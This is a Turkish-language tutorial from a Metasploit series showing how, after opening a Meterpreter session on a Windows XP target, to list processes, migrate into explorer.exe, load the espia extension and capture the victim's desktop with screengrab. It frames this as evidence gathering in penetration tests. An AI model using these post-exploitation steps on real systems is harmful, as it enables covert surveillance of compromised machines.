 ```yaml
---
draft: false

title:  'MSF Ekran Yakalama'
date: '2017-06-05T13:38:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Meterpreter shell oturumunun sağladığı imkanlardan bir tanesi de hedef bilgisayarın Masaüstü görüntüsünü kaydedebilmektir. Bu yöntemle Masaüstü görüntüsü alma, genellikle pentest işlemlerinde ispat olarak kullanılır.' 
 
url:  /tr/msf-ekran-yakalama/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Ekran Yakalama



Meterpreter shell oturumunun sağladığı imkanlardan bir tanesi de hedef bilgisayarın Masaüstü görüntüsünü kaydedebilmektir. Bu yöntemle Masaüstü görüntüsü alma, genellikle pentest işlemlerinde ispat olarak kullanılır.



Meterpreter oturum açtığınızda, oturumu `explorer.exe` prosesine taşınmalısınız. Aşağıdaki örnekte öncelikle sistemde çalışan programlar kontrol edilmektedir.



Hedef bilgisayarda meterpreter oturum açtığınızı farz ediyoruz. Öncelikle çalışan işlemlere bakalım. Bunun için `ps` komutunu kullanabilirsiniz.


```bash
**[*********]** Started bind handler
**[*********]** Trying target Windows XP SP2 - English...
**[*********]** Sending stage **(**719360 bytes**)**
**[*********]** Meterpreter session 1 opened **(**192.168.1.101:34117 -&gt; 192.168.1.104:4444**)**

meterpreter **&gt;** ps

Process list
**============**

    PID   Name                 Path
    ---   ----                 ----
    180   notepad.exe          C:\WINDOWS\system32 otepad.exe
    248   snmp.exe             C:\WINDOWS\System32\snmp.exe
    260   Explorer.EXE         C:\WINDOWS\Explorer.EXE
    284   surgemail.exe        c:\surgemail\surgemail.exe
    332   VMwareService.exe    C:\Program Files\VMware\VMware Tools\VMwareService.exe
    612   VMwareTray.exe       C:\Program Files\VMware\VMware Tools\VMwareTray.exe
    620   VMwareUser.exe       C:\Program Files\VMware\VMware Tools\VMwareUser.exe
    648   ctfmon.exe           C:\WINDOWS\system32\ctfmon.exe
    664   GrooveMonitor.exe    C:\Program Files\Microsoft Office\Office12\GrooveMonitor.exe
    728   WZCSLDR2.exe         C:\Program Files\ANI\ANIWZCS2 Service\WZCSLDR2.exe
    736   jusched.exe          C:\Program Files\Java\jre6\b**in**\jusched.exe
    756   msmsgs.exe           C:\Program Files\Messenger\msmsgs.exe
    816   smss.exe             \SystemRoot\System32\smss.exe
    832   alg.exe              C:\WINDOWS\System32\alg.exe
    904   csrss.exe            \??\C:\WINDOWS\system32\csrss.exe
    928   winlogon.exe         \??\C:\WINDOWS\system32\winlogon.exe
    972   services.exe         C:\WINDOWS\system32\services.exe
    984   lsass.exe            C:\WINDOWS\system32\lsass.exe
    1152  vmacthlp.exe         C:\Program Files\VMware\VMware Tools\vmacthlp.exe
    1164  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1276  nwauth.exe           c:\surgemail wauth.exe
    1296  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1404  svchost.exe          C:\WINDOWS\System32\svchost.exe
    1500  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1652  svchost.exe          C:\WINDOWS\system32\svchost.exe
    1796  spoolsv.exe          C:\WINDOWS\system32\spoolsv.exe
    1912  3proxy.exe           C:\3proxy\b**in**\3proxy.exe
    2024  jqs.exe              C:\Program Files\Java\jre6\b**in**\jqs.exe
    2188  swatch.exe           c:\surgemail\swatch.exe
    2444  iexplore.exe         C:\Program Files\Internet Explorer\iexplore.exe
    3004  cmd.exe              C:\WINDOWS\system32\cmd.exe
```



Örnek çıktıda görüldüğü gibi `explorer.exe` 260 PID numarasıyla çalışmaktadır. `migrate` komutuyla Meterpreter oturumunu `explorer.exe` içine taşıyalım.


```bash
meterpreter **&gt;** migrate 260
**[*********]** Migrating to 260...
**[*********]** Migration completed successfully.
```



Ardından `espia` eklentisini aktif hale getirelim.


```bash
meterpreter **&gt;** use espia
Loading extension espia...success.
```



`screengrab` komutuyla hedef bilgisayarın Masaüstü görüntüsünü kaydedelim.


```bash
meterpreter **&gt;** screengrab
Screenshot saved to: /root/nYdRUppb.jpeg
meterpreter **&gt;**
```



Gördüğünüz gibi Masaüstü resmi yerel bilgisayarımıza kaydedildi. Bu işlemi yaparken `explorer.exe` veya benzeri şekilde klasör ve dosyalar üzerinde işlem yapabilen bir programa geçiş yapmanız önemlidir. Aksi takdirde `screengrab` komutu çalışmayabilir.
